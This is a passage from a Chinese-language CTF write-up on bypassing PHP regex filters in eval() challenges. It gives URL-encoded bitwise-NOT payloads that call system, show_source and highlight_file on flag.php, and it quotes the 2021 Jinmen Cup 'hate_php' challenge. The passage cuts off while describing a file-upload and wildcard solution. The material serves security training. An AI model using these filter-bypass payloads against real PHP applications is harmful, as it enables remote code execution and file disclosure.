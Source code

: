 然后结合php7的新的执行动态函数的方法也就是(‘phpinfo’)()来实现命令执行

也就是可以继续利用(system)(ls)来继续查看当前的目录中的内容

然后利用(show_source)(flag.php)

(%80%80%80%80%80%80%80%80%80%80%80<sup>%F3%E8%EF%F7%DF%F3%EF%F5%F2%E3%E5)(%80%80%80%80%80%80%80%80</sup>%E6%EC%E1%E7%AE%F0%E8%F0)

#### 方法二：

此方法只适用于php7

```
<?php
echo urlencode(~'highlight_file');  //%97%96%98%97%93%96%98%97%8B%A0%99%96%93%9A
echo "\n";
echo urlencode(~'flag.php'); //%99%93%9E%98%D1%8F%97%8F
?> 
```

利用取反来实现命令执行，绕过正则匹配的方法与上面相同，使用亮高打印flag：(highlight_file)(flag.php)

(<sub>%97%96%98%97%93%96%98%97%8B%A0%99%96%93%9A)(</sub>%99%93%9E%98%D1%8F%97%8F)

## 2021-第五届世界智能大会-「津门杯」国际网络安全创新大赛-Web-hate_php

### 题目：

```
<?php
error_reporting(0);
if(!isset($_GET['code'])){
    highlight_file(__FILE__);
}else{
    $code = $_GET['code'];
    if(preg_match("/[A-Za-z0-9_$@]+/",$code)){
        die('fighting!'); 
    }
    eval($code);
}
?> 
```

此题目过滤了所有的字母和数字以及下划线$@符号，这种无敌的过滤，只有神才能做出来，欲做此题，先看[p神的文章](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

### 解题思路：

1.利用.来执行脚本

2.利用linux的通配符来实现匹配文件的名字

### 解题：

构造post文件上传的数据包用来上传文件：将以下代码在本地构造，然后浏览器运行再抓包
